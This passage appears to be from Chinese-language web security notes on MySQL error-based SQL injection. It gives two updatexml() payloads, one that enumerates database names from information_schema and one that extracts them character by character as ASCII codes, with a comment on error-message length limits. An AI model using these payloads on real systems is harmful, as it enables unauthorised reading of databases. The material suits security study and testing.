 ```mysql
# 通过 limit 来指定第几个，但是数据库名过长的话会导致显示不完整，mysql报错输出内容有长度限制
updatexml(1,concat(0x7e,(SELECT(CONCAT(schema_name))FROM(information_schema.schemata) limit 第x个数据库,1),0x7e),1)
```

![image-20250222154220093](static/image/image-20250222154220093.png)

```mysql
# 获取数据库名ASCII码
updatexml(1,concat(0x7e,(SELECT(ASCII(SUBSTR(schema_name,第x位,1)))FROM(information_schema.schemata) limit 第x个数据库,1),0x7e),1)
```
